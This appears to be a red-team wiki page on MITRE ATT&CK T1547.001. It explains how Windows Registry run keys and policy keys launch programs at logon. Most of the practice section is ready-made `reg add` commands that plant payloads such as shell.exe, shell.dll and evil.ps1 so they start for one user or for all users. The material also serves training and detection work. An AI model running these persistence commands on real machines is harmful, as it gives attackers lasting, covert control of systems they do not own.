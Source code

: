 ```yaml
---
description: >-
  MITRE ATT&CK™ Boot or Logon Autostart Execution: Registry Run Keys / Startup
  Folder - Technique T1547.001
---
```


# Run Keys

## Theory&#x20;

We may achieve persistence by referencing a program with a Registry run key. Adding an entry to the "run keys" in the Registry or startup folder will cause the program referenced to be executed when a user logs in. These programs will be executed under the context of the user and will have the account's associated permissions level.

## Practice

{% hint style="success" %}
Registry entries under `HKU/HKCU` will only apply to the user.\
Registry entries under `HKLM` will apply to everyone
{% endhint %}

{% hint style="info" %}
**Run/RunServices** keys will run every time a user logs in.

**RunOnce/RunServicesOnce** will clears the registry key as soon as it run.
{% endhint %}

{% tabs %}
{% tab title="Run/RunOnce/RunOnceEx" %}
You can force a user to execute a program on logon via the **Run** and **RunOnce** and **RunOnceEx** registry keys. You can use the following registry entries to specify applications to run at logon:

* `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnceEx`

The **RunOnceEx** key entries can reference programs directly or list them as a dependency. For example, it is possible to load a DLL at logon using a "Depend" key with RunOnceEx.

{% hint style="info" %}
RunOnceEx only executes from HKEY\_LOCAL\_MACHINE (HKLM)

RunOnceEx clears the registry key on completion of the command.
{% endhint %}

```bash
#Run/RunOnce
## Add key for current user
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v PeMalware /t REG_SZ /d "C:\Users\user1\shell.exe"
## Add key for computer (all users)
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v PeMalware /t REG_SZ /d "C:\Users\user1\shell.exe"

#RunOnceEx
#Add key for current user - Execute command / PE
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v PeMalware /t REG_SZ /d "C:\tmp\shell.exe"
#Add key for computer (all users) - Execute DLL
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnceEx\0001Depend" /v DLLMalware /t REG_SZ /d "C:\tmp\shell.dll"
```
{% endtab %}

{% tab title="RunServices/RunServicesOnce " %}
The following Registry keys can control automatic startup of services during boot:

* `HKU\<SID>\Software\Microsoft\Windows\CurrentVersion\RunServices`
* `HKU\<SID>\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\RunServices`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce`

```powershell
#Add key for current user - Execute command / PE
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Pwned /t REG_SZ /d "C:\tmp\Pwned.exe"

#Add key for computer (all users) - Execute command / PE
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Pwned /t REG_SZ /d "C:\tmp\Pwned.exe"
```
{% endtab %}

{% tab title="Policies" %}
We can use policy settings to specify startup programs with following registry keys

* HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
* HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run

```powershell
#Add key for current user - Execute command / PE
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run" /v Pwned /t REG_SZ /d "C:\tmp\Pwned.exe"

#Add key for computer (all users) - Execute command
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run" /v Pwned /t REG_SZ /d "powershell.exe C:\tmp\evil.ps1"
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://attack.mitre.org/techniques/T1547/001/" %}
